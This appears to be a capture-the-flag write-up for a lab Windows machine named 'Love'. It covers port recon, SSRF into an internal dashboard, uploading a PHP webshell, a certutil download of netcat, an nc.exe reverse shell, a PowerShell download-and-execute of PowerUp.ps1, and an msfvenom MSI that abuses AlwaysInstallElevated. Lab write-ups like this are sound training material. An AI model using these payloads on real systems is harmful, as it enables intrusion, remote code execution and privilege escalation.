









# Love

### Reconnaissance

- port 80/tcp HTTP Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)  
- port 135/tcp RPC  
- port 139/tcp NetBIOS  
- port 443/tcp HTTP Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)  
- port 445/tcp SMB Windows 10 Pro 19042 microsoft-ds  
- port 3306/tcp MySQL  
- port 5000/tcp HTTP Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)  
- port 5040/tcp ??  
- port 5986/tcp Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
- port 7680/tcp pando-pub  
- port 47001/tcp Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
- port 49664-49670/tcp RPC  

The HTTP server on port 80 is a login portal for a Voting System

Wappalyzer shows the server uses php

Directory enumeration shows an admin login at /admin

The SSL certificate for port 443 shows a domain of love.htb and a subdomain of staging.love.htb. Adding them 
to /etc/hosts allows us to access the staging subdomain

The Demo tab allows us to scan a file by entering a url

We can use SSRF to access the other HTTP server on port 5000, the dashboard shows the admin credentials for 
the love.htb/admin panel

Logging in to the admin panel, we see that we can upload images by adding a new voter profile

### Exploitation

There doesn't appear to be any filtering so we can just upload a php webshell

`<?php system($_REQUEST["cmd"]);?>`

We can execute commands by navigating to http://love.htb/images/rev.php and using the cmd parameter to enter 
the command, ensuring the command is urlencoded

We can upload nc.exe and get a stable shell by hosting the binary and using certutil to download it

`http://love.htb/images/rev.php?cmd=certutil+-urlcache+-f+http://10.10.10.10:8000/nc.exe+nc.exe`

Then start a netcat listener and run nc.exe to get a reverse shell

`http://love.htb/images/rev.php?cmd=nc.exe+10.10.10.10+4444+-e+cmd.exe`

### Privilege Escalation

Host PowerUp.ps1 then download and execute it with powershell (Don't forget to add Invoke-AllChecks on the 
last line of PowerUp.ps1)

`echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10:8000/PowerUp.ps1') | powershell -noprofile -`

We can see that AlwaysInstallElevated is set to true for HKCU and HKLM, allowing us to elevate privileges via 
a malicious msi

Create the msi with msfvenom

`msfvenom windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f msi -o shell.msi`

Upload it to the target, start a listener, and use msiexec to run the malicious msi

`msiexec /quiet /qn /i shell.msi`

This gives us a System shell

### Lessons Learned

- Check SSL certificates for domains/subdomains

- If you can't access an exposed HTTP server look for SSRF vulnerabilities

- Check any calls HTTP server's make for SSRF
